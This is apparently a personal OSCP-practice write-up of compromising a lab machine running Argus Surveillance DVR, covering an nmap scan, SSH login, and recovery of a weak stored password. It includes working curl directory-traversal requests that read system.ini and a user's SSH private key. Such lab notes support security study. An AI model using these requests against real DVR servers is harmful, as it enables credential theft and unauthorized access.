

**Start 18:30 24-02-2025**

---
```
Scope:
192.168.219.179
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -p- dvr4 -sT -T5 --min-rate=5000

PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack Bitvise WinSSHD 8.48 (FlowSsh 8.48; protocol 2.0; non-commercial use)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http-proxy    syn-ack
|_http-title: Argus Surveillance DVR
|_http-generator: Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]
|_http-favicon: Unknown favicon MD5: 283B772C1C2427B56FC3296B0AF42F7C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Connection: Keep-Alive
|     Keep-Alive: timeout=15, max=4
|     Content-Type: text/html
|     Content-Length: 985
|     <HTML>
|     <HEAD>
|     <TITLE>
|     Argus Surveillance DVR
|     </TITLE>
|     <meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
|     <meta name="GENERATOR" content="Actual Drawing 6.0 (http://www.pysoft.com) [PYSOFTWARE]">
|     <frameset frameborder="no" border="0" rows="75,*,88">
|     <frame name="Top" frameborder="0" scrolling="auto" noresize src="CamerasTopFrame.html" marginwidth="0" marginheight="0"> 
|     <frame name="ActiveXFrame" frameborder="0" scrolling="auto" noresize src="ActiveXIFrame.html" marginwidth="0" marginheight="0">
|     <frame name="CamerasTable" frameborder="0" scrolling="auto" noresize src="CamerasBottomFrame.html" marginwidth="0" marginheight="0"> 
|     <noframes>
|     <p>This page uses frames, but your browser doesn't support them.</p>
|_    </noframes>
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC

```


## 445/TCP - SMB


## 8080/TCP - HTTP


I look up exploits matching the service:


I actually get quite a lot of them, let's try out the **Directory Traversal** one.


```bash
# PoC

curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```


We indeed get the intended result.

Back on the website we find the user we're looking for:


We want to get the ssh key of *viewer* so we can then log in.

```bash
curl "http://dvr4:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```


Now that we have the `id_rsa` key, we can use it to log into SSH.


# Foothold


EZ PZ

Let's check out the home directory:


We notice the user already has `nc.exe` as well as `psexec.exe` in here... Might be a clue.

Let's snatch the `local.txt` first.

## local.txt


# Privilege Escalation

## PoC

We also find another PoC:


In here we see a mention of the `.ini` file, let's check it out.


```
ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8
5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE
```


Notice the **Unknown** character here.

>[!note]
>It is possible that we might have to brute force the last character if this is the correct password.

```
14WatchD0g
```


```
ImWatchingYou
```


>[!fail]
>Neither worked.

Let's try the `nc.exe` binary then, with the help of `runas`.


>[!fail]
>Again no success, let's try to brute force the last **Unknown** character that we found previously.

After some tries it worked:




>[!success]
>The correct password was `14WatchD0g$`


## proof.txt


---

**Finished 19:27 24-02-2025**

[^Links]: [[OSCP Prep]]

